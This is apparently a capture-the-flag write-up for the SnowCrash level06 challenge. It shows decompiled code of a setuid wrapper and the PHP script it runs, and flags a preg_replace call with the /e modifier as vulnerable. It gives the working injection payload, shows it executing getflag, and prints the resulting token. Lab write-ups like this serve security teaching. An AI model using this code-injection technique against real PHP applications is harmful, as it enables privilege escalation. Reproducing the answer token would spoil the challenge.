 Decompiling level06 program at ~/


int32_t main(int32_t argc, char** argv, char** envp)
	int32_t esi = strdup(0x80487d4)
	int32_t ebx = strdup(0x80487d4)
	if (*(argv + 4) != 0)
	    free(esi)
	    strdup(*(argv + 4))
	    if (*(argv + 8) != 0)
	        free(ebx)
	        strdup(*(argv + 8))
	int32_t eax_6 = getegid()
	int32_t eax_7 = geteuid()
	setresgid(eax_6)
	setresuid(eax_7, eax_7, eax_7)
	int32_t var_34 = 0x80487d5  {"/usr/bin/php"}
	execve(0x80487d5, &var_34, envp)  {"/usr/bin/php"}
return 0

It looks like it just calls php with a file as its argument.
There is a php file next to the program:

```
#!/usr/bin/php
<?php
	function y($m)
	{
		$m = preg_replace("/\./", " x ", $m);
		$m = preg_replace("/@/", " y", $m);
		return $m;
	}

	function x($y, $z)
	{
		$a = file_get_contents($y);
		$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); <<<<--- the vulnerable line matches "[x anything]"
		$a = preg_replace("/\[/", "(", $a);
		$a = preg_replace("/\]/", ")", $a); return $a;
	}

	$r = x($argv[1], $argv[2]);
	print $r;
?>
```

```
echo '[x ${`getflag`}]' > /tmp/x
./level06 /tmp/x
```

level06@SnowCrash:~$ ./level06 /dev/shm/x
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1

 :D :D :D 
